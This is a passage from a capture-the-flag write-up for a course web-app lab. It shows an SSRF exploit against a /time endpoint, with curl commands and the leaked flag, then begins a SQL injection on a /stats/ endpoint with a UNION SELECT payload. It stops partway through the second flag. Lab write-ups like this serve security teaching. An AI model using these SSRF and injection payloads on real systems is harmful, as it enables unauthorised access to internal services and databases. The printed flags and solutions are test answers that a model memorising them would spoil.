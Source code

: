 # BSK* CTF \#1 - Web apps
Collect 3 flags at http://web.kazet.cc:31339/. <br/> <br/>
# Flag \#1 - FLAG{0c55606a072a912d264846cd22c95020e781}
## Vulnerability
Server-side request forgery ([SSRF](https://portswigger.net/web-security/ssrf))

## Approach
After examining the sources of the main page we can see that there is a `.js` script embedded in the HTML source page. The script calls `/time` API endpoint of the application.

So let's try calling the endpoint ourselves using `curl`:
```
$ curl -XPOST -H "Content-type: application/json" -d '{"timezone": "warsaw"}' 'web.kazet.cc:31339/time'

{"info":"17:13:38","status":"ok"}
```

We succesfully reached the endpoint and received the information about the time in Warsaw. Let's try to break something with the following payload:
```
$ curl -XPOST -H "Content-type: application/json" -d '{"timezone": "foo"}'
 'web.kazet.cc:31339/time'

{"info":"nie uda\u0142o si\u0119 pobra\u0107 http://foo.timezone.internal","status":"error"}
```

So we see that after us calling `/time` endpoint, application tried to reach some internal API located at `<input>.timezone.internal`. Let's try to access local server of the application:

```
$ curl -XPOST -H "Content-type: application/json" -d '{"timezone": "localhost:80/#"}' 'web.kazet.cc:31339/time'

{"info":"FLAG{0c55606a072a912d264846cd22c95020e781}","status":"ok"}
```
And we got the flag.

# Flag \#2 - FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7fc9f3b5bc9c065b3e6fdc4f4}

## Vulnerability
[SQL injection](https://portswigger.net/web-security/sql-injection)
## Approach
Let's look at `http://web.kazet.cc:31339/stats/<something>` endpoint. After trying to break some things we can see that this enpoint is vulnerable to sql injection. The `<something>` part of URL is a part of some SQL query. <br/> <br/>
Now we can investigate further:
1. Determine the types of the columns:
   * [http://web.kazet.cc:31339/stats/2022 AND 1 = 2 UNION SELECT 'foo', 1--](<http://web.kazet.cc:31339/stats/2022 AND 1 = 2 UNION SELECT 'foo', 1-->)
   * string and number
2. Determine the database vendor
   * After trying different syntaxes with a trial and error method we can say that it is most likely PSQL database.
3. Search for interesting tables (for example using tedious filtering)